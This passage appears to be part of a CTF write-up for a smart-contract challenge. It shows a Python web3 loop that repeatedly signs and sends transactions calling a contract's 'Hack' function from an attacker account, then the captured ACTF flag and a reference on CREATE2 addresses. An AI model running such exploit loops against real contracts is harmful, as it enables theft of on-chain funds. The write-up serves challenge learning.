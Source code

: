 ``` python
    print('[+] attacking... Round:', i)
    TransactionData = contract.functions['Hack']('0x21ac0df70A628cdB042Dde6f4Eb6Cf49bDE00Ff7',12).buildTransaction({
        'chainId': w3.eth.chain_id,
        'from': hacker,
        'gas': 4700000,
        'gasPrice': w3.toWei(1,'wei'),
        'nonce': w3.eth.getTransactionCount(hacker),
        'value': w3.toWei(0,'wei')
        })
    signed_txn1 = w3.eth.account.signTransaction(TransactionData, sk_hacker)
    txn_hash1 = w3.eth.sendRawTransaction(signed_txn1.rawTransaction).hex()
    txn_receipt1 = w3.eth.waitForTransactionReceipt(txn_hash1)
```

```
ACTF{a_sTup1d_W3B_VUl_M4y_1e@D_7o_s3rIou$_w3b3_ImP4C7_666}
```
### 引用
[通过CREATE2获得合约地址：解决交易所充值账号问题](https://learnblockchain.cn/article/1297.html)
